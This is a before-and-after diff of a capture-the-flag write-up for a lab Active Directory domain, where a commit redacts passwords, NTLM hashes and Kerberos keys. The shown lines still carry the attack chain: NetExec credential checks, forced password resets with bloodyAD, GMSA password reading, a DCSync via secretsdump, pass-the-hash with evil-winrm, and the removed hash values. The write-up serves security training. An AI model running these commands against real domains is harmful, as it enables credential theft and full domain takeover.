

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-stellarcomms.md, in a window 1280 px wide and 900 px high, scrolled down 22779 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Redact all passwords and hashes in StellarComms writeup
- Operational passwords (Password123!) redacted as [REDACTED]
- NTLM hashes redacted as [HASH REDACTED] in secretsdump output,
  GMSA extraction, creds commands, and evil-winrm
- Kerberos keys redacted
- Story-discovered passwords (Galaxy123!, Cosmos@42) kept in
  discovery context only, matching 404bank writeup pattern

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/_ctf/hacksmarter-stellarcomms.md
+++ b/_ctf/hacksmarter-stellarcomms.md
@@ -189,13 +189,13 @@ All new users are provisioned with this default password for testing purposes an
 Using the discovered default password against the `junior.analyst` account:
 
 ```bash
-nxc ldap 10.0.27.48 -u junior.analyst -p 'Galaxy123!'
+nxc ldap 10.0.27.48 -u junior.analyst -p '[REDACTED]'
 ```
 
 ```
 LDAP    10.0.27.48    389    DC-STELLAR    [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR)
 (domain:stellarcomms.local) (signing:None) (channel binding:No TLS cert)
-LDAP    10.0.27.48    389    DC-STELLAR    [+] stellarcomms.local\junior.analyst:Galaxy123!
+LDAP    10.0.27.48    389    DC-STELLAR    [+] stellarcomms.local\junior.analyst:[REDACTED]
 ```
 
 We now have valid domain credentials for **junior.analyst**.
@@ -231,7 +231,7 @@ Running **UwU Toolkit's** `bloodhound_collect` module to map the domain:
 ```
 UwU Toolkit bloodhound_collect > creds use 1
 [*] USER => junior.analyst
-[*] PASS => Galaxy123!
+[*] PASS => [REDACTED]
 [+] Loaded credential: 1
 UwU Toolkit bloodhound_collect > run
 [*] Running bloodhound_collect...
@@ -295,7 +295,7 @@ Name        Current                        Required   Description
 DC_HOST     DC-STELLAR.stellarcomms.local   no         DC hostname/FQDN (use instead of IP for Kerberos)
 DOMAIN      stellercomms.local             yes        Domain name
 NEW OWNER   junior.analyst                 yes        New owner (sAMAccountName)
-PASS        Galaxy123!                     yes        Password for USER
+PASS        [REDACTED]                     yes        Password for USER
 RHOSTS      10.0.27.48                     yes        Domain Controller IP or hostname
 SECURE      no                             no         Use LDAPS
 TARGET      STELLAROPS-CONTROL             yes        Target object to take ownership of (sAMAccountName)
@@ -391,10 +391,10 @@ UwU Toolkit bloody_setpassword > run
 [*] Domain: stellercomms.local
 [*] User: junior.analyst
 [*] TARGET: ops.controller
-[*] NEW_PASS: Password123!
+[*] NEW_PASS: [REDACTED]
 
 [*] Command: bloodyAD -d stellercomms.local -u junior.analyst -p [HIDDEN] --host DC-STELLAR.stellarcomms.local -i 10.0.27.48 set password
-ops.controller Password123!
+ops.controller [HIDDEN]
 
 [*] Using local bloodyAD
 [+] [+] Password changed successfully!
@@ -409,7 +409,7 @@ Confirming the new credentials with **UwU Toolkit's** `netexec` module:
 ```
 UwU Toolkit netexec > creds use 2
 [*] USER => ops.controller
-[*] PASS => Password123!
+[*] PASS => [REDACTED]
 [+] Loaded credential: 2
 UwU Toolkit netexec > run
 [*] Running netexec...
@@ -420,11 +420,11 @@ UwU Toolkit netexec > run
 [*] Protocol: SMB
 [*] Action: check
 
-[*] Executing: NetExec smb 10.0.27.48 -u ops.controller -p 'Password123!' -d stellarcomms.local
+[*] Executing: NetExec smb 10.0.27.48 -u ops.controller -p '[REDACTED]' -d stellarcomms.local
 
 [*] SMB                   10.0.27.48    445    DC-STELLAR       Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR)
 (domain:stellarcomms.local) (signing:True) (SMBv1:None) (Null Auth:True)
-[+] SMB                   10.0.27.48    445    DC-STELLAR       [+] stellarcomms.local\ops.controller:Password123!
+[+] SMB                   10.0.27.48    445    DC-STELLAR       [+] stellarcomms.local\ops.controller:[REDACTED]
 ```
 
 ---
@@ -528,11 +528,11 @@ UwU Toolkit netexec > run
 [*] Protocol: SMB
 [*] Action: check
 
-[*] Executing: NetExec smb 10.0.27.48 -u astro.researcher -p 'Cosmos@42' -d stellarcomms.local
+[*] Executing: NetExec smb 10.0.27.48 -u astro.researcher -p '[REDACTED]' -d stellarcomms.local
 
 [*] SMB                   10.0.27.48    445    DC-STELLAR       Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR)
 (domain:stellarcomms.local) (signing:True) (SMBv1:None) (Null Auth:True)
-[+] SMB                   10.0.27.48    445    DC-STELLAR       [+] stellarcomms.local\astro.researcher:Cosmos@42
+[+] SMB                   10.0.27.48    445    DC-STELLAR       [+] stellarcomms.local\astro.researcher:[REDACTED]
 
 [+] Module completed successfully
 ```
@@ -580,10 +580,10 @@ UwU Toolkit bloody_setpassword > run
 [*] Domain: stellercomms.local
 [*] User: junior.analyst
 [*] TARGET: eng.payload
-[*] NEW_PASS: Password123!
+[*] NEW_PASS: [REDACTED]
 
 [*] Command: bloodyAD -d stellercomms.local -u junior.analyst -p [HIDDEN] --host DC-STELLAR.stellarcomms.local -i 10.0.27.48 set password
-eng.payload Password123!
+eng.payload [HIDDEN]
 
 [*] Using local bloodyAD
 [+] [+] Password changed successfully!
@@ -594,11 +594,11 @@ eng.payload Password123!
 Confirming with NetExec:
 
 ```
-[*] Executing: NetExec smb 10.0.27.48 -u eng.payload -p 'Password123!' -d stellarcomms.local
+[*] Executing: NetExec smb 10.0.27.48 -u eng.payload -p '[REDACTED]' -d stellarcomms.local
 
 [*] SMB                   10.0.27.48    445    DC-STELLAR       Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR)
 (domain:stellarcomms.local) (signing:True) (SMBv1:None) (Null Auth:True)
-[+] SMB                   10.0.27.48    445    DC-STELLAR       [+] stellarcomms.local\eng.payload:Password123!
+[+] SMB                   10.0.27.48    445    DC-STELLAR       [+] stellarcomms.local\eng.payload:[REDACTED]
 ```
 
 ---
@@ -623,13 +623,13 @@ UwU Toolkit netexec > run
 [*] Protocol: LDAP
 [*] Action: gmsa
 
-[*] Executing: NetExec ldap 10.0.27.48 -u eng.payload -p 'Password123!' -d stellarcomms.local --gmsa
+[*] Executing: NetExec ldap 10.0.27.48 -u eng.payload -p '[REDACTED]' -d stellarcomms.local --gmsa
 
 [*] LDAP                  10.0.27.48    389    DC-STELLAR       Windows 10 / Server 2019 Build 17763 x64 (name:DC-STELLAR)
 (domain:stellarcomms.local) (signing:None) (channel binding:No TLS cert)
-[+] LDAP                  10.0.27.48    389    DC-STELLAR       [+] stellarcomms.local\eng.payload:Password123!
+[+] LDAP                  10.0.27.48    389    DC-STELLAR       [+] stellarcomms.local\eng.payload:[REDACTED]
 [*] LDAP                  10.0.27.48    389    DC-STELLAR       Getting GMSA Passwords
-    LDAP                  10.0.27.48    389    DC-STELLAR       Account: SATLINK-SERVICE$     NTLM: aa7754c78ee812b76a6daa03ba4cc52c
+    LDAP                  10.0.27.48    389    DC-STELLAR       Account: SATLINK-SERVICE$     NTLM: [HASH REDACTED]
 PrincipalsAllowedToReadPassword: ['eng.payload', 'SATLINK-SERVICE$']
 
 [+] Module completed successfully
@@ -638,11 +638,11 @@ PrincipalsAllowedToReadPassword: ['eng.payload', 'SATLINK-SERVICE$']
 Adding the GMSA credential to UwU:
 
 ```
-UwU Toolkit netexec > creds add SATLINK-SERVICE$ -h aa7754c78ee812b76a6daa03ba4cc52c -d stellarcomms.local
+UwU Toolkit netexec > creds add SATLINK-SERVICE$ -h [HASH REDACTED] -d stellarcomms.local
 [+] Added credential: stellarcomms.local\SATLINK-SERVICE$
 UwU Toolkit netexec > creds use 5
 [*] USER => SATLINK-SERVICE$
-[*] PASS => aa7754c78ee812b76a6daa03ba4cc52c (hash)
+[*] PASS => [HASH REDACTED] (hash)
 [*] DOMAIN => stellarcomms.local
 [+] Loaded credential: 5
 ```
@@ -661,36 +661,36 @@ UwU Toolkit impacket_secretsdump > run
 
 [*] Auth mode: Pass-the-Hash (Domain)
 [*] Using local impacket tools
-[*] Executing: secretsdump.py 'stellarcomms.local/SATLINK-SERVICE$@10.0.27.48' -hashes :aa7754c78ee812b76a6daa03ba4cc52c
+[*] Executing: secretsdump.py 'stellarcomms.local/SATLINK-SERVICE$@10.0.27.48' -hashes :[HASH REDACTED]
 
     Impacket (Exegol fork) v0.14.0.dev0+20260120.113623.b52b6449 - Copyright Fortra, LLC and its affiliated companies
 
 [-] [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
 [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
 [*] Using the DRSUAPI method to get NTDS.DIT secrets
-    Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3a97bfa75ebed92165ea2d67cd21002:::
-    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
-    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a71b2f34ef6bf1c3a1d748eeea2616ec:::
-    stellarcomms.local\junior.analyst:1103:aad3b435b51404eeaad3b435b51404ee:5944e69e5f2c6dcffcb218e0b638aeaa:::
-    stellarcomms.local\ops.controller:1104:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
-    stellarcomms.local\astro.researcher:1105:aad3b435b51404eeaad3b435b51404ee:4ff610019b56e453b3c476cb34053a99:::
-    stellarcomms.local\eng.payload:1106:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
-    DC-STELLAR$:1000:aad3b435b51404eeaad3b435b51404ee:0feccb7b614f58fd162a26f3a6f44609:::
-    SATLINK-SERVICE$:1108:aad3b435b51404eeaad3b435b51404ee:aa7754c78ee812b76a6daa03ba4cc52c:::
+    Administrator:500:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
+    Guest:501:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
+    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
+    stellarcomms.local\junior.analyst:1103:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
+    stellarcomms.local\ops.controller:1104:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
+    stellarcomms.local\astro.researcher:1105:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
+    stellarcomms.local\eng.payload:1106:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
+    DC-STELLAR$:1000:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
+    SATLINK-SERVICE$:1108:aad3b435b51404eeaad3b435b51404ee:[HASH REDACTED]:::
 [*] Kerberos keys grabbed
-    Administrator:aes256-cts-hmac-sha1-96:bfaf1e64a09cd38cf5f61c308386793e79b354fa338079da920e25e9245de6cb
+    Administrator:aes256-cts-hmac-sha1-96:[HASH REDACTED]
     ...
 [*] Cleaning up...
 ```
 
-Full domain compromise achieved. Administrator NTLM hash: `d3a97bfa75ebed92165ea2d67cd21002`
+Full domain compromise achieved. Administrator NTLM hash obtained via DCSync.
 
 ### Administrator Access
 
 Connecting via Evil-WinRM with pass-the-hash:
 
 ```bash
-evil-winrm -i 10.0.27.48 -u 'Administrator' -H 'd3a97bfa75ebed92165ea2d67cd21002'
+evil-winrm -i 10.0.27.48 -u 'Administrator' -H '[HASH REDACTED]'
 ```
 
 ```
@@ -747,17 +747,17 @@ junior.analyst      : Galaxy123!                → Default creds (Stellar_UserG
 
 Phase 2 - Lateral Movement
 ────────────────────────────────────────────────────────────────
-ops.controller      : Password123!              → ForceChangePassword via STELLAROPS-CONTROL
+ops.controller      : [REDACTED]                → ForceChangePassword via STELLAROPS-CONTROL
 astro.researcher    : Cosmos@42                 → Firefox credential extraction (firepwd)
 
 Phase 3 - Privilege Escalation
 ────────────────────────────────────────────────────────────────
-eng.payload         : Password123!              → WriteDACL → GenericAll → SetPassword
-SATLINK-SERVICE$    : [NTLM PTH] aa7754c78...   → ReadGMSAPassword
+eng.payload         : [REDACTED]                → WriteDACL → GenericAll → SetPassword
+SATLINK-SERVICE$    : [NTLM PTH]               → ReadGMSAPassword
 
 Phase 4 - Domain Compromise
 ────────────────────────────────────────────────────────────────
-Administrator       : [NTLM PTH] d3a97bfa7...   → DCSync via SATLINK-SERVICE$
+Administrator       : [NTLM PTH]               → DCSync via SATLINK-SERVICE$
 ```
 
 ---
````
